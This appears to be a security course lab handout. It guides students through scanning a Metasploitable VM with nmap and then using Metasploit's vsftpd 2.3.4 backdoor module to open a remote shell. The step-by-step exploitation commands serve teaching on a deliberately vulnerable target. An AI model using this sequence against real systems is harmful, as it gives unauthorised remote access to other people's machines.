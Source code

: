 # Lab 5 - Vulnerability Exploitation

## **Lab Preparation**

Ensure that both the Kali and the metasploitable machines are powered on and on the
same network. Verify connectivity between them by using the ping command.

 1. Run nmap against the metasploitable machine using the following command.

	- ```sudo nmap -sV <metasploitable IP> -vvv``` 

	- Make note of open ports and services.

	- Make note of what port VSFTPD service is running.

 2. Start the Kali PostgreSQL service (which Metasploit uses as its backend) by
running the following command.

	- ```sudo systemctl start postgresql```

 3. Initialize the Metasploit PostgreSQL database by running the following command.

	- ```sudo msfdb init```

 4. Launch msfconsole

	- ```msfconsole```

 5. Check the database connectivity using the following command.

	- ```db_status``` (it should say connected).

 6. Explore the search command by typing "help search".

 7. Search for an VSFTPD exploit.

	- ```search type:exploit name:vsftp```

 8. How many exploits were found?

 9. Select the found exploit by typing the following command.

	- ```use exploit/unix/ftp/vsftpd_234_backdoor```

 10. Review the options of the exploit by typing the following command.

	 - ```show options```

 11. Set the remote host and ports by using the following commands.

	 - ```set RHOSTS <Metasploitable IP Address>

	 - ```set RPORT <VSFTPD port number>

 12. Verify what payloads are available by using the "show payloads" command.

 13. How many payloads are available?

 14. Run the exploit by using the following command.

	 - ```exploit```

 15. Once the shell is opened type ```hostname```, followed by ```ifconfig```. Include screenshot of output.
